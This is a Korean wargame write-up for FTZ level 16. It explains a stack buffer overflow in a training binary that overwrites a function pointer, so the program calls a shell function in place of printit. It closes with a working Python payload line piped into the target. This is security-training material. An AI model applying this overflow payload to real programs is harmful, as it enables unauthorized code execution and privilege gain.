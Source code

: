 ```yaml
---
title:  "[FTZ] level 16"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-19 23:37:44

---
```


# level 16

**level16 / about to cause mass**

힌트

![image](https://user-images.githubusercontent.com/69203345/146673456-096dc3bd-6ed3-4943-946c-e73af05bc1dd.png)

buf에 20바이트 할당  
20바이트 buf에 최대 48바이트 까지 입력을 받고 call을 함

printit 함수를 호출할때 사용되는 포이터 call 변수를 shell함수로 호출하도록 해주면 됨

![image](https://user-images.githubusercontent.com/69203345/146673622-45c63128-c883-43c6-a12e-76880790a06c.png)

0x0804851e <main+6>: mov    DWORD PTR [ebp-16], 0x8048500
[ebp-16]에 0x8048500을 넣음

[ebp-56]에 입력을 받음

printit의 시작 주소 확인  
![image](https://user-images.githubusercontent.com/69203345/146673870-aac60acd-72ce-40b0-beba-ecc7d3109579.png)

[ebp-16]이 printit의 주소 인것을 확인

shell의 시작 주소 확인  
![image](https://user-images.githubusercontent.com/69203345/146677677-eb9db917-238d-42eb-8228-9f530624cefb.png)

[ebp-16]의 pritnit의 주소를 shell의 주소로 바꿔주면 될것

낮은주소 

buf[20] [ebp-56]  
dummy[20]  
*call[4] [ebp-16]  
crap[4]+dummy[8]  
sfp[4]  
ret[4]

높은주소

아마 이럴것이라고 생각된다

shell의 시작주소는 0x080484d0이기때문에  
>(python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146678790-ec27d64e-5b6e-4ded-b696-8aba3911e02a.png)


